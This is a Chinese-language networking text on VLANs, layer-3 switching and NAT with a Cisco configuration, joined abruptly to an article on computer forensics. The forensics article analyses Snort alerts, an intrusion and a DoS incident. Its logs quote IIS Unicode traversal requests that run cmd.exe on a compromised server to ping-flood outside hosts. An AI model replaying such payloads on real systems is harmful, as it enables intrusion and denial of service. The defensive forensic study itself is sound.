如果 VLAN A 与 VLAN-B 要通信，必须增加诸如 NetBuilder II 路由器。从某种角度来讲，A 站点要与 B 站通信，其数据包必须经过 A -> Switch1000 -> Switch3000 -> NetBuilder II 转换网络原地址，再从 NetBuilder II -> Switch3000 -> Switch1000 -> B 站点。从另一个角度来讲，如果没有第三层交换的 VLAN，其单个虚网的网络范围也受到限制（主要是高层网络协议的制约，也受到广播风暴的制约）。比如以 TCP/IP 为例，一个 C 类地址最多只能有 254 台主机，B 类地址的主机数当然要多得多，但如在 B 类地址上不用掩码进行子网分段，或不将如此多的主机划分 VLAN，那任何一个站的广播包将冲击到每台主机，占用极大的网络带宽，将严重影响网络效率。这一点对大型网络来讲是非常危险的。但将这些主机划分小组 VLAN 后，VLAN 之间的通信就需要路由或第三层交换。一种正常可行的做法是将 VLAN 的大小根据实际工作需要（如按部门、业务关系）及网络性能需要制定，并让每个虚拟网代表一个单独的网络层子网（用相应的 Netmask 掩码）。这种配置对于产生逻辑防火墙是必须的。而 VLAN 之间的通信，可采用路由器来协助。

早期的 VLAN 间通信是利用外部路由器来完成的，但外部路由器的主要用途是连接广域网，其内部交换性能在设计上并没有作专门重点考虑，所以通信延迟比较大，而且交换能力强大的外部路由器价格非常昂贵。正是因为此种原因，很多厂商直接在交换机内集成了路由器功能（第三层交换），并且可以在第三层以线速转发数据包。由于它的设计目的是为局域网服务的，大量的广域服务机制（包括软、硬件）未集成于内，因而成本较低。老一代第三层交换机仅交换 IP 包，没有交换多协议的能力，现在的第三层交换机具有多协议交换能力（包括 IPX、Appletalk 等）。

- 1. VLAN 的协议规定在 802.1Q 中，到目前为止，该规定只提到基于端口的 VLAN，未提及基于协议的 VLAN（按协议类别分组）或基于 MAC 的 VLAN（按端点地址分组）。新一代第三层交换机（如 3COM 公司的 CoreBuilder 9000）定义了 3 种形式的 VLAN：基于端口的 VLAN——可以将任意端口的主机划分在以“桥”相接的组内；基于协议的 VLAN——可以根据第三层协议类型划分 VLAN，即协议相同的主机在一个 VLAN 内，这对有多服务器、多种操作系统的大型网络极为有用。

- 2. 有效的多点通信。对于大型网络来讲，今后的视频广播及数据分布处理都将得到广泛应用，而这些功能都需要有效的一到“多点”的通信。

在交换式 VLAN 互联网上运行这些软件时，随之而来的多点广播和广播信息包不仅必须与单点广播相同的速率（每秒数百万个信息包）下传输，而且还不能影响网络的其他性能。另外，由于内在的高数据密度和通信的多媒体应用对延迟的敏感性，这种多点访问对园区网有特殊要求。因为信息包通常使用 IP 多点广播技术，所以信息包可能会超出交换机的第二层，使组广播信息包充满每个端口，从而引发拥塞。现在的第三层交换机支持 Internet 组管理协议（IGMP），因而可防止此类问题发生。结合 IGMP，它能够自动地（Autocast）只将 IP 多点广播包分布给需要它们的那部分虚网。由于 IGMP 防止了第二层及第三层上无用多点广播信息包的流入，因而能够为音频、视频和数据分布扩充多点应用范围。

- 3. 质量和分类（QOS、COS）服务。质量和分类（QOS、COS）服务对多媒体和交换机应用软件使用的增加，意味着网络不仅必须更快地传输数据，还必须保持数据传输速率的稳定性。质量服务（QOS）、类别服务（COS）包括：用于多媒体及其它带宽敏感型应用及用户的多种级别带宽保留和通信优先排序。交换式互连网络中，有多种用于满足应用软件 QOS 需求的独立工具。基于优先权的排序技术，允许交换机和路由器有选择地应用发送和废弃策略，以满足 QOS 需求。第三层交换机支持 802.1Q 包标记技术，为 VLAN 中继上的包优先级提供明确的标识机制。而其资源保留协议（RSVP），为 VLAN 间通信保留相应带宽，为多媒体应用提供最小延时和预留带宽。此外，现在的第三层交换机（如 3COM 公司的 CoreBuilder 9000）可以把优先排列、保留资源等 QOS 分开的服务级别集成在一起，为网络多媒体提供：按重要性排序（WFQ）、随机早期丢弃、资源保留协议（RSVP）和根据优先级排序，这就为关键任务和多媒体环境提供了高水平的网络可用性。

## 七、VLAN的管理

VLAN 一般是通过软件来实现而并不是硬件，它的一个主要特性就是提供更多的管理控制，减少了相对的日常管理开销，因此具有更大的配置灵活性。

VLAN 的主要特性包括：当用户从一个地点移动到另外一个地点时，简化了配置操作和过程修改；当网络阻塞时，可以重新调节流量分布；提供流量与广播行为的详细报告，同时统计 VLAN 逻辑区域的规模与组成；提供根据实际情况在 VLAN 中改变用户数量的灵活性。对于 VLAN 的配置还是有一定难度，一个好的工具是必不可少的选择。

作为网络巨头之一的 CISCO 公司提供了两个优秀的 VLAN 管理工具：VLANView 和 TrafficView。这两个工具都是基于 SNMP 协议，完全支持 get 和 set 命令，而且可以无缝继承常用的网络管理平台，比如 HP 公司的 OpenView、IBM 的 NetView 以及 SUN 公司的 SunNet Manager 等。下面对它们进行简单介绍：

- 1. VLANView

VLANView 的核心应用是通过图形界面上的拖放操作模式，为 VLAN 创建的逻辑组分配端口。这样就可以用图形方式自动画出交换机在网络中的拓扑位置，并提供交换机每个端口的状态提示，然后允许用户拖放一个或者多个端口给 VLAN。

VLAN 不但减少了配置端口的时间，而且还提供了在主干网不同交换机间配置 VLAN 的功能。该功能在相连的路由器与交换机之间传递一系列配置选项以优化 VLAN 流量。

首先提供一种简单的操作模式，该模式可以自动启动交换机之间的主干线路，而这些交换机都配置有 VLAN，或者是在 VLAN 链路上。其次，网络管理员可以通过在冗余线路上分配 VLAN，或者在特定区域内分离 VLAN，方便地调用它们。最后，网络管理员可以轻松地通过主干网查看 VLAN 的配置情况，以及每个 VLAN 的详细使用情况，包括交换机、线路连接、端口等。

除了上面所介绍的，VLAN 还有其他一些扩展功能，包括通过发现终端主机的 MAC/IP 地址给 VLAN 动态分配交换机端口；给端口添加安全功能以识别非授权用户；以及基于应用层协议和网络层协议对第三层 VLAN 进行动态分组。

- 2. TrafficView

TrafficView 是一个基于 RMON 的流量监听与分析应用，该应用可以提供给端口与排除给端口和每个局域网段的流量控制。同时，它也可以提供流量趋势分析以发现主要网络变化。TrafficView 的管理代理也具有通用性。也就是说，TrafficView 可以给任何具有 RMON 的应用提供数据。这些都为网络管理功能的继承提供了保障。

## 八、VLAN中的IP地址

大量研究表明，企业安全问题只有 30% 来自外部攻击，而 70% 的问题来自企业内部。划分 VLAN 和 IP 子网，在 IP 子网间设置访问控制表，是解决内部安全问题的一个重要方法。

VLAN 是链路层交换的一个概念。相互连接的若干第二层交换机形成一个局域网，这个局域网除性能提高外，与传统局域网并无太大差别。划分 VLAN 即划分若干逻辑区域，一个区域即一个逻辑上的局域网。在 VLAN 内部，广播信息传播到域内所有节点，单播数据包仅传到目的节点。不同 VLAN 具有不同层次的安全隔离，不同 VLAN 之间的通信只能通过第三层交换才能实现。

IP 子网划分一般基于 VLAN 划分，即一个 VLAN 分配一个 IP 子网。路由协议最好采用支持可变长 netmask 的协议，如 OSPF 等。VLAN 和 IP 子网一般以部门为单位划分。从网络角度看，部门内部可以实现无控制的资源共享，访问控制可在服务器、数据库和应用级进行；子网间通信必须通过第三层，依据 IP 包的源地址和目的地址及端口号、协议等决定转发或丢弃该包，从而达到控制部门间访问的目的。

### 九、虚拟局域网间的路由

虚拟局域网可以用来在网络内部设立广播域，但无法从一个虚拟局域网向另一个转发数据通信。

虚拟局域网之间的通信还需要路由器。优化的虚拟局域网部署被断言将保持尽可能少的通信量穿越路由器。路由器通信量的最小化减少了路由器演变为瓶颈的机会。结果，在虚拟局域网环境中“能交换就交换，必须路由时才路由”这一推论演变成了“路由仅用于虚拟局域网之间的联接”。但是，还需牢记在某些情况下，路由不一定就是瓶颈的主要原因。正如前面提到的，把路由功能集成到主干交换机中可以消除这种瓶颈，如果这种路由是以虚拟局域网之间数据包的高速通信完成的话。

### 1. NAT简介

NAT 的功能就是将使用私有地址的网络与公用网络 Internet 相连。使用私有地址的内部网络通过 NAT 路由器发送数据时，私有地址将被转化为合法注册的 IP 地址，从而可以与 Internet 上的其他主机进行通信。NAT 路由器被置于内部网和 Internet 的边界上，并且在把数据包发送到外部网络前将数据包的源地址转换为合法的 IP 地址。当多个内部主机共享一个合法 IP 地址时，地址转换是通过端口多路复用，即改变外出数据包的源端口并进行端口映射完成。

### 2. NAT工作过程

假设某公司申请 DDN 专线时，电信提供的合法地址为 61.138.0.93/30、61.128.0.94/30，公司内部网络地址为 192.168.0.0/24，路由器局域口地址 192.168.0.254/24，广域口地址 61.138.0.93/30。当 192.168.0.1/24 这台计算机向 Internet 上的服务器 202.98.0.66 发出请求，则相应操作过程如下：

- 1. 内部主机 192.168.0.1/24 的用户发出到 Internet 上主机 202.98.0.66 的连接请求；
- 2. 边界路由器从内部主机接到第一个数据包时会检查其 NAT 映射表，如果还没有为该地址建立地址转换映射，路由器便决定为该地址进行地址转换。路由器为该内部地址 192.168.0.1 到合法 IP 地址 61.138.0.93 建立映射，同时附加端口信息，以区别于内部其他主机的映射；
- 3. 边界路由器用合法 IP 地址 61.138.0.93 及某端口号来替换内部 IP 地址 192.168.0.1 和对应端口号，并转发该数据包；
- 4. Internet 服务器 202.98.0.66 接到该数据包，并以该包的地址（61.138.0.93）来对内部主机 192.168.0.1 作出应答；
- 5. 当边界路由器接收到目的地址为 61.138.0.93 的数据包时，路由器将使用该 IP 地址、端口号从 NAT 映射表中查找出对应的内部地址和端口号，然后将数据包的目的地址转化为内部地址 192.168.0.1，并将数据包发送到该主机。对于每一个请求，路由器都重复 2~5 的步骤。

附：路由器 NAT 功能配置  
以 CISCO2501 为例，要求其 IOS 为 11.2 版本以上。

```bash
cisco2501#conf t
cisco2501(config)# int e0
cisco2501(config-if)# IP address 192.168.0.254 255.255.255.0
cisco2501(config-if)# IP nat inside
（指定e0口为与内部网相连的内部端口）
cisco2501(config-if)#int s0
cisco2501(config-if)#encapsulation ppp
（指定封装方式为PPP）
cisco2501(config-if)#IP address 61.138.0.93 255.255.255.252
cisco2501(config-if)# IP nat outside
（指定s0为与外部网络相连的外部端口）
cisco2501(config-if)#exit
cisco2501(config)# bandwidth 128
（指定网络带宽128k）
cisco2501(config)# IP route 0.0.0.0 0.0.0.0 Serial0
（指定缺省路由）
cisco2501(config)# IP nat pool a 61.138.0.93 61.138.0.93 netmask 255.255.255.252
（指定内部合法地址池，起始地址；结束地址为合法IP 61.138.0.93）
cisco2501(config)# access-list 1 permit 192.168.0.0 0.0.0.255
（定义一个标准的access-list规则，以允许哪些内部地址可以进行地址转换）
cisco2501(config)# IP nat inside source list 1 pool a overload
（设置内部地址与合法IP地址间建立地址转换）
cisco2501(config)#end
cisco2501#wr
```

说到黑客攻击事件，我想大家都应该极为熟悉了，网络上不时出现有组织的国际黑客大战，零碎的黑客攻击更是频繁。在了解这些攻击技术的同时，我们更不能忽略黑客攻击的另一面——计算机取证。计算机犯罪目前越来越严重，如何有效抑制这类犯罪，已经成为我们不得不面对的问题。为了有效惩治和防范计算机犯罪，各国纷纷加快这方面的立法……但仅靠法律条例还是远远解决不了问题的，我们还必须依靠计算机取证技术。这也正是我们今天要谈的主题。

## 抓住证据的黑手



## ——论计算机取证技术

文 / killqq

据权威资料显示，1992 年以来，黑客攻击、信息盗窃、金融诈骗、内部人士网络滥用、病毒等计算机犯罪事件迅猛增加，但实际起诉的案件数量却没有变化。原因就在于，由于取证棘手，很多案件因为证据缺乏而不得不放弃起诉。如果采用现有的计算机高科技，组织各方面人力进行调查取证，搜寻确认罪犯和犯罪事实并进行起诉，就可以很大程度上减少这类犯罪，并为企业挽回损失。可见，在目前网络安全形势严峻的情况下，实施并推广计算机取证具有十分重要的意义。

计算机取证一般包含如下 5 个步骤：  
(1) 识别证据：识别可获取的信息类型，以及获取的方法；  
(2) 传输证据：将获取的信息安全地传送到取证分析机上；  
(3) 保存证据：确保与原始数据一致，不对原始数据造成改动和破坏；  
(4) 分析证据：以可见的方式显示，结果要具有确定性，不要作任何假设；  
(5) 提交证据：向管理者、律师或者法院提交证据。

### 一、计算机取证及其特点

关于计算机取证的定义多种多样，目前还没有权威组织给出一个明确、完整的定义。它可简单表述为：使用计算机软件和工具进行分析、研究，从特定活动中寻找和提取法律证据的过程。也可以这么定义：计算机取证是指对计算机入侵、破坏、欺诈、攻击等犯罪行为，利用计算机软硬件技术，按照符合法律规范的方式进行识别、保存、分析和提交数字证据的过程。取证的目的是为了据此找出入侵者或入侵机器，并解释入侵过程。

- 1. 容易被改变或删除，并且改变后不容易被发觉

传统证据如书面文件可以长久保存，如有改动或添加，都会留有痕迹，通常不难察觉……而数字证据多以磁性介质为载体，由于磁性介质保存的数据内容可以被改动，并且不易留下痕迹，因此数字证据的真实性和安全性存在疑问。

- 2. 多种格式的存储方式

数字证据以计算机为载体，其实质是以一定格式储存在计算机硬盘、软盘或 CD-ROM 等存储介质中。

实质上是二进制代码，它的形成和还原都要借助于计算机设备。另外，随着多媒体技术的出现，数字证据综合了文本、图形、图像、动画、音频及视频等多种媒体信息，这种以多媒体形式存在的电子证据几乎涵盖了所有传统证据类型。

- 3. 易损毁性

计算机信息最终都是用二进制数字表示的，以数字信号的方式存在，而数字信号是非连续性的，因此对数字证据进行接收、监听、删节、剪接等操作，从直观上讲无法查清。或者由于操作人员的误操作或供电系统、通信网络的故障等环境和技术方面的原因，都会造成数字证据的不完整性。

- 4. 高科技性

计算机是现代化的计算、通信工具和信息处理工具；其证据的产生、储存和传输，都必须借助于计算机软硬件技术、存储技术、网络技术等，离开了高科技含量的技术设备，电子证据无法保存和传输。如果没有外界的蓄意篡改或差错的影响，电子证据就能准确地储存并反映有关案件的情况。正是以这种高技术为依托，使它很少受主观因素的影响，其精确性决定了电子证据具有较强的证明力。而电子证据的收集和审查判断，往往需要一定的科学技术，甚至是尖端的科学技术，并且伴随科技的发展进程会不断地更新、变化。

- 5. 传输中通常和其他无关信息共享信道。

### 二、计算机取证的基本原则

- 1. 尽早搜集证据，并保证其没有受到任何破坏。
- 2. 必须保证“证据连续性”，即在证据正式提交到法庭时，必须能够说明在证据从最初的获取状态到在法庭上出现状态之间的任何变化，当然最后是没有任何变化。
- 3. 整个检查、取证过程必须受到监督。

### 三、一些取证工具的介绍

- 1. 硬件数据采集器。存在于主机、硬盘或网络中，对读写等操作进行记录，可快速查看磁盘、校验、分析，并可形成技术报告，如 Guidance Software 的 FastBloc 数据采集器。
- 2. EnCase，Guidance Software 开发，提供图形界面来查看和管理所有的证据。另外，软件还记录操作者和操作时间。
- 3. SafeBack，New Technologies Inc，主要是为美国联邦法律执行机构提供的高级证据保护工具。（http://www.forensics-intl.com/safeback.html）
- 4. The Coroner’s Toolkit 利用文件的最近修改、访问（MAC）和改变时间进行分析，并且根据数据节点的值提取出文件列表以进行恢复。
- 5. 对 DoS 攻击的快速反应。检测攻击的节点并向 ISP 反馈，引诱攻击进入像 ManTrap 的假目标以获得足够信息。
- 6. 其他一些工具的功能，如：系统监测，监视当前进程、CPU、磁盘读写并记录；端口扫描，对 Rootkit 的匹配检查；过滤非字符信息，以便传统文件编辑器处理；各种口令破解工具。

### 四、取证分析方案

主要可分为实时取证和事后取证。

- 1. 实时取证：与 IDS、HoneyPot、Honeynet 的紧密结合，IDS、HoneyPot、Honeynet 实时获取数据并进行分析，智能分析攻击者的企图，实施相应的动作，或切断连接，或诱敌深入，在确保安全的情况下获取攻击者的大量证据。
- 2. 事后取证：在已遭受入侵的情况下，运用各种技术手段进行分析取证工作。

在目前来说，事后取证是最主要的取证方案，而目前最流行的事后取证方案是日志分析。详细地审查系统日志文件，可以了解入侵过程中攻击者执行了哪些操作，以及哪些远程主机访问了你的主机，但系统中的任何日志文件都可能被入侵者改动过。

对于 UNIX 系统，可能需要查看 /etc/syslog.conf 文件确定日志信息文件在哪些位置。NT 通常使用 3 个日志文件，它们记录所有的事件，每个事件都会被记录到其中的一个文件，使用 Event Viewer 可以查看日志文件。

### 五、实例分析

### 1．Snort 工具及其应用

Snort 作为一个 NIDS（基于网络的入侵检测系统），可以很好地检测到对系统的攻击并记录下来，从而可以达到实时取证和事后取证的目的。

Snort 的工作原理为在基于共享的网络上检测原始的网络传输数据，通过分析捕获的数据包，主要工作为匹配入侵行为的特征或者从网络活动的角度检测异常行为，进而采取入侵的预警或记录。

从检测模式而言，Snort 属于误用检测（该方法对已知攻击的特征模式进行匹配，包括利用工作在网卡混杂模式下的嗅探器被动地进行协议分析，以及对一系列数据包解释分析特征）。从本质上来说，Snort 是基于规则检测的入侵检测工具，即针对每一种入侵行为，都提炼出它的特征值并按照规范写成检验规则，从而形成一个规则数据库。其次，将捕获的数据包按照规则库逐一匹配，若匹配成功，则认为该入侵行为成立。Snort 包括以下几个模块系统。

- （1）数据包捕获和解析子系统

该子系统的功能为捕获网络的传输数据并按照 TCP/IP 协议的不同层次将数据包进行解析。Snort 利用 libpcap 库函数进行采集数据，该库函数可以为应用程序提供直接从链路层捕获数据包的接口函数，并可以设置数据包的过滤器用来捕获指定的数据。网络数据采集和解析机制是整个 NIDS 实现的基础，其中最关键的是要保证高速和低的丢包率，这不仅仅取决于软件的效率，还与硬件的处理能力相关。对于解析机制来说，能够处理数据包类型的多样性也同样非常重要，目前 Snort 可以处理以太网、令牌环以及 SLIP 等多种链路类型的包。

- （2）检测引擎

检测引擎是一个 NIDS 实现的核心，准确性和快速性是衡量其性能的重要指标。前者主要取决于对入侵行为特征码提炼的精确性和规则撰写的简洁实用性；由于网络入侵检测系统自身角色的被动性——只能被动地检测经过本网络的数据，而不能主动发送数据包去探测，所以只有将入侵行为的特征码归结为协议不同字段的特征值，通过检测该特征值来决定入侵行为是否发生。后者主要取决于引擎的组织结构是否能够快速地进行规则匹配。

- 1）一次攻击案例分析

在 2003 年 10 月 3 日 12:06 时，Snort 发出报警，报告说现在我的系统中某一台服务器遭受到攻击。Snort 检测到攻击并且将有关信息放到 /var/log/messages 文件中。下面是 Snort 的记录：

```text
Oct 3 12:06:05 king Snort[6511]: IDS131/nops-x86: 202.XXX.XXX.XXX:1253 -> 210.XXX.XXX.XXX:1320

Oct 3 12:07:11 king PAM_pwdb[7854]:(login) session opened for user one by (uid=0)

Oct 3 12:08:56 king PAM_pwdb[7859]:(su) session opened for user king by one(uid=513)
```

其中，210.XXX.XXX.XXX 是我的机器（也就是被攻击的机器），202.XXX.XXX.XXX 是扫描并登录我机器的攻击者地址。从分析中得知，攻击者已经得到 root 权限，登录到我机器上，并且现在已经控制了系统，入侵者可以任意修改系统设置，对我机器产生了严重威胁。由于我的不谨慎，未能将前几天的系统日志保存下来，这导致我无法查到攻击者对主机进行扫描并查出主机系统漏洞的时间。

但是，Snort 工具可以收集到所有 IP 包的详细内容，所以我们可以来分析攻击行为。所有信息都使用 tcpdump 二进制格式保存在 Snort 的日志文件里，幸运的是，这个攻击者是个新手，没有将日志文件删除，这就为后续查证他的攻击行为提供了依据。这次他运行的是针对缓冲区漏洞的程序（具体是什么程序目前还没查明），其目的就是要获取到远程机器上的 root shell。一旦他得到了 root shell，就能够执行任意的命令。最常见的方法是通过修改账号、密码，或者自己设置后门程序，为后续攻击提供方便。同时，Snort 可以揭开其踪迹和捕获其击键记录，Snort 不仅可以捕获 STDIN（击键），而且可以捕获 STDOUT 和 STDERR 记录，这样可以看出攻击者对机器做了什么手脚。但要是数据经过加密的话，那也只能看到密文，而不是明文。不过，许多攻击者是通过 Telnet 上机器，在机器上设置后门。而 Telnet 是明文通信协定，对数据没有进行加密，所以 Snort 还是可以很有效地记录攻击者的行为。

虽然这次攻击因为数据包被拦截下来没能继续下去，但是此次 Snort 记录为后续的犯罪取证提供了可靠依据。

### 2）对一次入侵秀的分析

再看一个网上提及过的有关 Snort 的例子，这应该说是一次入侵秀：用其他机器模拟攻击的。

一天下午，Snort 报警提示有来自 202.X.X.X 的 SuperScan 扫描，发送了 ICMP Echo 的数据包测试系统是否存活：

```text
2002-9-21 16:48 snort[852]: [1:474:1] ICMPSuperscan
 echo [Classification: Attempted Information Leak]
 [Priority: 2]: [ICMP] 202.X.X.X -> 10.0.0.1
```

同时，系统日志记录了后续进行的端口探测活动：

```text
2002-9-21 16:48 in.rlogind[1316], connect from 210.X.X.X
2002-9-21 16:48 inetd[413], pid 1318, exit status 1
2002-9-21 16:48 in.rshd[1318], connect from 210.X.X.X
2002-9-21 16:48 in.fingerd[1319], connect from 210.X.X.X
2002-9-21 16:48 in.telnetd[1313], connect from 210.X.X.X
```

```text
2002-9-21 16:48 rshd[1318]: Connection from 210.X.X.X on illegal port
2002-9-21 16:48 telnetd[1313]: ttloop: peer died: EOF
2002-9-21 16:48 inetd[413]: pid 1316, exit status 1
2002-9-21 16:48 inetd[413]: pid 1313, exit status 1
2002-9-21 16:48 sendmail[1314]: NOQUEUE: Null connection from [210.X.X.X]
2002-9-21 16:48 in.fingerd[1319], connect from 210.X.X.X
2002-9-21 16:48 in.telnetd[1320], connect from 210.X.X.X
```

这些端口连接的源地址不是发送 ICMP Echo 的 202.X.X.X，而是 210.X.X.X 这个地址。很显然，攻击模拟者是使用了 TCP/UDP 协议的代理跳板，而 ICMP 协议不被该跳板支持，所以他的真实 IP 地址也暴露了。这样，用 Snort 配合系统日志可以分析出攻击者的攻击行为。

### 2. 一次 D.O.S. 攻击的计算机犯罪取证

广东某次计算机攻击事件曾经引起大家的广泛关注，下面我就对此次事件做一个简单的分析，作为计算机犯罪取证的一个例子。

某日，广东某 ISP 和广东某数据分局发现不少异常情况，类似攻击行为。而且，内部机器 202.xxx.xxx.219、202.xxx.xxx.237 对外产生大量扫描行为，ICMP 包比例达到 25% 以上，这是一种很典型的 ICMP 类 D.O.S. 攻击。

典型的拒绝服务攻击有如下两种形式：资源耗尽和资源过载。当一个对资源的合理请求大大超过资源的支付能力时，就会造成拒绝服务攻击（例如，对已经满载的 Web 服务器进行过多的请求）。拒绝服务攻击还有可能是由于软件的弱点或者对程序的错误配置造成的。

进一步分析数据包，发现攻击来自不同的 IP。其中，两个 IP 来自上述某 ISP 3 台攻击源其中的两台 202.xxx.xxx.250 和 202.xxx.xxx.251。

通过分析某数据分局的 8010 服务器（61.xxx.xxx.34）受攻击时的网络数据包分析图，发现大量来自 202.xxx.xxx.251 和 202.xxx.xxx.250 的 ICMP 垃圾包；通过分析某 ISP 的网警数据，发现 ICMP 包已经超过 30%，这是典型的 ICMP 类 D.O.S. 攻击。

通过察看其他图表发现：攻击源依然是内部托管的用户主机 202.xxx.xxx.208、202.xxx.xxx.250、202.xxx.xxx.251 3 台机器，但攻击目标已经改变为 61.xxx.xxx.157。

为什么攻击者两次找上这样的⼤型 ISP 呢，因为 ISP 为很多中小型企业提供了各种规模的主机托管业务，主机的高性能、高带宽是进行 D.O.S. 攻击的有利条件，所以攻击者频繁地选择它作为攻击对象不足为奇。

- （1）禁止对主机的非开放服务的访问；
- （2）限制同时打开的 SYN 最大连接数；
- （3）限制特定 IP 地址的访问；
- （4）严格限制对外开放的服务器的向外访问。

这样可以有效地防止攻击行为继续进行下去。分析 202.xxx.xxx.208 的 IIS 日志，发现已经有来自 IP：202.98.223.237 使用 IIS UNICODE 漏洞对 202.xxx.xxx.208 进行初步入侵。从 3 月 6 日起，就发现来自不同源 IP 的 URL 请求使用同一漏洞调用 PING 程序对不同的攻击目标进行攻击（具体请看日志片段）。

```text
2001-03-05 02:45:41 202.98.223.237（第一次攻击来源IP） -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+dir%20c:\ 200（第一次攻击）

2001-03-06 14:55:22 211.159.7.248 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+211.159.5.9 502

2001-03-06 16:03:09 202.100.207.75 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+202.100.88.68 502
```

```text
2001-03-06 16:37:52 202.105.40.225 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+61.140.163.140 502

2001-03-06 17:12:38 61.128.158.33 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+61.128.137.236 502

2001-03-06 17:26:14 61.158.242.23 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+61.143.3.140 502

2001-03-06 17:27:39 61.139.23.86 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+61.139.36.97 502

2001-03-06 18:34:25 61.147.61.202 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+6666+61.132.13.225 502

2001-03-06 19:44:52 61.139.23.86 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+61.141.80.200 502

2001-03-06 23:22:54 24.108.6.81 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+216.66.144.94 502

2001-04-10 00:51:21 61.144.246.135 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+100+61.150.227.133 502

2001-04-10 00:52:30 211.167.112.14 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+9999+202.160.249.50 502

2001-04-10 01:03:19 211.167.112.14 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+9999+202.160.249.50 502

2001-04-10 01:14:05 211.167.112.14 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+9999+202.160.249.50 502

2001-04-10 01:17:55 211.98.23.125 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+200+211.98.23.134 502

2001-04-10 01:43:51 211.167.112.14 -> 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+9999+202.160.249.50 502
```

这里简单解释一下该日志中的部分内容：

```text
2001-03-06 14:55:22 211.159.7.248 - 202.xxx.xxx.208 80 GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+211.159.5.9 502
```

前面是日期和时间，211.159.7.248 是请求源，202.xxx.xxx.208 是中间机器（跳板）。

“GET /scripts/..\../winnt/system32/cmd.exe /c+ping+-l+65000+-n+500+211.159.5.9”是通过执行中间机器 cmd.exe 命令的 PING 程序。“-l+65000”是发送的包大小；“-n+500”是发送次数；211.159.5.9 是目标机器；502 代表请求返回的错误码。

在日志中，请求源并非固定的 IP，每次 PING 程序所指定的目标主机也不是固定的，黑客用了一定的技巧使请求源成为随机 IP，也很可能是分布式的拒绝服务攻击（D.Do.S）。

从对两台机器日志的分析来看，初次访问这两台机器该漏洞的 IP 是相同的。所以，202.98.223.237 应该是肇事者 IP。

最后，有关单位收集提取有关电子证据，配合客户向公安机关报案，并对本案肇事者进行了锁定。

## 3. 此次取证过程的分析

这次取证是在坚持计算机取证的大原则下进行的，并且有自己的特点。

- 尽量多搜集证据，并保证其没有受到任何破坏，保持证据的完整性、真实性、可靠性。
- 保证了“证据连续性”，在证据正式提交到公安机关时，记录了攻击者的一切行为，为将来的法庭调查提供了可靠依据。
- 整个检查、取证过程是在网警安全工具的监督下进行，在多位专家级的网络工程师的协助下完成的。

这次取证过程依旧遵循了计算机取证的几个步骤：

- 识别证据：识别攻击者的攻击行为和方法（D.o.S 攻击）；
- 保存证据：将系统日志和其他网络工具、监视工具记录的信息完整地保存下来，不做任何改动破坏；
- 分析证据：以可见的方式显示，以事实为依据对攻击者的攻击行为进行分析，最后锁定 202.98.223.237 是肇事者 IP；
- 提交证据：网络收集提取有关电子证据，配合客户向公安机关报案。

这次取证过程结合了实时取证和事后取证两种方案。

实时取证：网络工程师利用现有的工具（网警）对广东某 ISP 和广东某数据分局进行了实时监控，实时获取数据并进行分析，智能分析攻击者的企图，并做出了相应的对策：

- 关闭 ICMP 通信来预防同类攻击，在其交换机 CISCO5509 上采取相应措施。
